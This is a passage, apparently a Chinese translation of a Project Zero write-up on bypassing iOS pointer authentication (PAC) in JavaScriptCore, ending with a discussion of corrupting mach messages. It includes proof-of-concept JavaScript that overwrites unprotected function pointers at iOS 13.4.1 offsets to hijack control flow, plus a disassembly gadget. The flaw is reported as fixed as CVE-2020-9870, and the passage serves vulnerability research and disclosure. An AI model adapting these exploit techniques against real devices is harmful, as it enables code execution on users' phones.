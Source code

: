 ```
// offset from iOS 13.4.1, iPhone Xs
let powImportAddr = Add(jscBase, 0x34e1d570);
memory.writePtr(powImportAddr, new Int64('0x41414141'));

function trigger(x) `{`
    return Math.pow(x, 13.37);
`}`
for (let i = 0; i &lt; 10000000; i++) `{`
    trigger(i + 0.1);
`}`
```

这将导致PC=0x41414141的崩溃，说明PAC被绕过了。

使用稍微修改过的IDAPython脚本搜索第二种漏洞类型(调用未保护指针)，也得到了一个代码片段:

```
MOV             W9, #0x6770
ADRP            X16, #___chkstk_darwin_ptr_19@PAGE
LDR             X16, [X16,#___chkstk_darwin_ptr_19@PAGEOFF]
BLR             X16
```

这段代码位于许多大型函数的开头，它分支到`__chkstk_darwin`函数，该函数可能负责防止超大的stackframe在栈溢出时“跳过”栈保护页。但是，由于某些原因，该函数的指针是从一个可写的内存区域加载的，也没有被PAC保护。因此，它再次可以执行任意代码，如以下代码所示:

```
// offset from iOS 13.4.1, iPhone Xs
let __chkstk_darwin_ptr = Add(jscBase, 0x34e1d430);
memory.writePtr(__chkstk_darwin_ptr, new Int64('0x42424242'));

// Just need to trigger FTL compilation now, we'll crash in FTL::lowerDFGToB3
function foo(x) `{`
    return Math.pow(x, 13.37);
`}`
for (let i = 0; i &lt; 10000000; i++) `{`
    foo(i + 0.1);
`}`
```

这之所以能够工作，是因为基本上在任何大栈帧的函数中都广泛使用__chkstk_darwin，，其中一个栈帧(即FTL::lowerDFGToB3)是在JIT编译期间执行的。

这两个问题被报告给苹果作为[Project Zero issue #2044](https://bugs.chromium.org/p/project-zero/issues/detail?id=2044)，随后在7月15日iOS 13.6中被修复，分配为CVE-2020-9870。用于查找这些gadget的IDAPython脚本也可以在[issue #2044](https://bugs.chromium.org/p/project-zero/issues/detail?id=2044)的报告中找到。

### <a class="reference-link" name="%E6%8E%A7%E5%88%B6%20Mach%20Messages"></a>控制 Mach Messages

受到与Project Zero团队成员Brandon Azad多次聊天的启发，这个bypass的思路是在mach message结构通过mach_msg系统调用发送出去之前破坏它。在iOS和macOS上，内核接口的很大一部分，整个IOKIT驱动接口，以及基本上所有用户空间的IPC都是通过mach message实现的，这使它成为一个完美的exploit原语。例如，通过改变内存保护或重新映射页面，可以使用与虚拟内存相关的mach系统调用来绕过PAC或APRR。另外，控制mach消息将再次允许从JavaScript实现阶段2的exploit，除非需要执行BSD系统调用的能力。

找到发送mach消息的代码的一个简单但不完美的方法是将mach_msg函数与一个Frida脚本挂钩，然后根据调用栈删除它的调用。这是不完美的，因为它会错过在正常操作期间很少执行的代码路径，但实现起来非常快。在WebKit渲染程序中这样做将大致显示以下对mach_msg的相关调用:
- IPC与浏览器进程通信
- XPC与其他系统进程通信
- Mach对内核的系统调用
最终，所有这些情况看起来都是条件竞争，因为构造的mach消息大部分会立即发送出去，而不会在内存中停留一段时间(理想情况下攻击者可以控制)，在这段时间内它可能会被破坏。由于在这些情况下失去竞争会导致堆（在IPC和XPC通信的情况下）或栈（在mach syscall的情况下）损坏，因此这些情况无法满足稳定的bypass的要求。
